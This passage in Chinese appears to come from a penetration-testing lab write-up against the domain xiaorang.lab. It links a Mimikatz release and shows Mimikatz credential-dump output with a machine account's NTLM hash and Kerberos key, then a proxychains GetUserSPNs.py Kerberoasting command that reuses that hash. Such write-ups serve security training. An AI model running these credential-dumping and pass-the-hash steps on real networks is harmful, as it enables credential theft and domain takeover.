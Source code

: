 也不行，可能是版本问题，试了很多版本

最终在 2.2 的某个版本成功执行，是这个应该 (下载的太多了，不记得具体哪个了)

[https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz\_trunk.zip](https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip)

### 信息搜集

使用 Mimikatz 获取密码

[![](assets/1706233449-5f38b54b964293da96d933d8c303a2ca.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124143914-4a5c9a90-ba83-1.png)

发现一个机器账户

```plain
Authentication Id : 0 ; 832440 (00000000:000cb3b8)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2024/1/24 10:40:31
SID               : S-1-5-90-0-2
    msv :   
     [00000003] Primary
     * Username : XR-0923$
     * Domain   : XIAORANG
     * NTLM     : b2caa4c3f6d5e97bf7c58f7db9e24317
     * SHA1     : 00e3cf78689e875da3f43a5b62cc919990b52a6b
    tspkg : 
    wdigest :   
     * Username : XR-0923$
     * Domain   : XIAORANG
     * Password : (null)
    kerberos :  
     * Username : XR-0923$
     * Domain   : xiaorang.lab
     * Password : c8 9c 74 62 4b a5 13 60 f8 9f 61 ee 0c 9c b4 ca 97 d7 4c 53 6a 10 4e e7 74 03 51 0a 95 3f 78 af 15 22 5d 7f 0c 10 c9 96 19 7a bd 28 d7 c8 9a b7 ec 04 fb a9 18 83 30 e1 d9 75 aa ed c1 81 d0 76 c3 70 6c 68 35 e9 16 66 bd fe c7 92 78 59 be 9b 0b 65 91 10 8b 5b c4 8f 18 32 72 a6 cb bb c1 b0 96 0f 1d 63 bf 8f e8 4f 9b 7b 6a 7c 0a e8 2e 9a 40 d7 36 7d 2e 7a 0c 99 21 ca 64 27 b9 df 77 c6 f7 47 19 d7 bb 05 d6 4b ca e6 70 4b 62 5f 1c f8 78 b9 33 a2 f7 9e e5 77 78 db f9 cd b1 73 e9 b2 df 35 67 5e b0 12 85 ac 59 db 4c 53 8e 2d 6a d4 d3 93 f5 61 30 ee f5 53 d0 2a ae cf 50 83 92 31 ad 67 17 7a 21 58 dc 62 96 2f f2 1c 1e bc 05 1b 43 48 91 5d c1 06 1d 71 73 c0 fa 04 66 59 e9 35 04 a9 50 a5 79 70 06 7b ea 3a ea 0c 44 4c 01 63 
    ssp :   
    credman :   
    cloudap :
```

### Kerberoasting 攻击

```plain
proxychains GetUserSPNs.py xiaorang.lab/'XR-0923$' -hashes :b2caa4c3f6d5e97bf7c58f7db9e24317 -dc-ip 172.22.14.11
```
